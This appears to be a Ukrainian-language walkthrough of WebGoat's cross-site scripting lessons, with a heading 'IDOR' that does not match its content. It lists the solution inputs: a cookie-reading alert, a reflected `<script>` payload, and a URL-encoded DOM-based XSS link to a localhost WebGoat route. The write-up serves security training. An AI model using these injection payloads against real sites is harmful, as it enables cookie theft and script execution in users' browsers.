








# IDOR

Обираємо відповідне завдання з меню WebGoat.

## Проходження завдання


### What is XSS?

Використання `alert(document.cookie);` для перевірки cookie.





### Most common locations



### Why should we care?



### Types of XSS


### Reflected XSS scenario


### Try It! Reflected XSS


Значення для розв'язання завдання::

```
<script>alert('')</script>
```

### Self XSS or reflected XSS?





### Reflected and DOM-Based XSS



### Identify potential for DOM-Based XSS




Перелік маршрутів, один з яких залишили помилково.

```
  routes: {
            'welcome': 'welcomeRoute',
            'lesson/:name': 'lessonRoute',
            'lesson/:name/:pageNum': 'lessonPageRoute',
            'test/:param': 'testRoute',
            'reportCard': 'reportCard'
        },
```

### Try It! DOM-Based XSS


Значення для розв'язання завдання::

```
http://localhost:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat%2Ecustomjs%2EphoneHome%28%29%3C%2Fscript%3E%0A
```

### Quiz


Завдання виконано успішно.


